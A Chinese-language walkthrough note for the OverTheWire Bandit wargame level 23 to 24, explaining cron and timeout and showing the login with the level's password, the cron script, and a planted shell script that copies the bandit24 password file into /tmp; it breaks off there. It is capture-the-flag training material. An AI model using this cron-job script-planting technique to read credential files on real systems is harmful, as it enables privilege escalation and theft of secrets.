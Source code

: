 - 目标：
  
  - A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.
    
    **NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
    
    **NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

- 命令学习：
  
  - cron, crontab, crontab(5) (use “man 5 crontab” to access this)
  
  - timeout
    
    - 使用 `SIGKILL` 可能会导致数据丢失或其他未预期的副作用，因为进程在接收到 `SIGKILL` 时不会有任何机会进行清理。在大多数情况下，使用 `SIGTERM`（默认信号，编号为 15）会更安全，因为它允许进程在终止前进行清理。如果你想要使用 `SIGTERM`，可以简单地省略 `-s 9` 部分，或者明确地使用 `-s 15`

- 解题步骤：
  
  - ssh -p 2220 bandit23@bandit.labs.overthewire.org 
  
    - 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
  
  - cd /etc/cron.d
  
  - cat cronjob_bandit24
  
  - cat  /usr/bin/cronjob_bandit24.sh
  
    - ```bash
      #!/bin/bash
      
      myname=$(whoami)
      
      cd /var/spool/$myname/foo
      echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
      for i in * .*;
      do
         if [ "$i" != "." -a "$i" != ".." ];
         then
             echo "Handling $i"
             owner="$(stat --format "%U" ./$i)"
             if [ "${owner}" = "bandit23" ]; then
                 timeout -s 9 60 ./$i
             fi
             rm -f ./$i
         fi
      done
      ```
  
    - 复制到bandit24，myname等于bandit24，判断如果owner等于bandit23，执行shell命令，60秒不成功就报9错误，然后删除下面的所有文件
  
  - cd /tmp/bandit23/
  
  - vim shell.sh
  
    - ```vim
      #!/bin/bash
      cat /etc/bandit_pass/bandit24 >> /tmp/bandit23/bandit23pass
      ```
  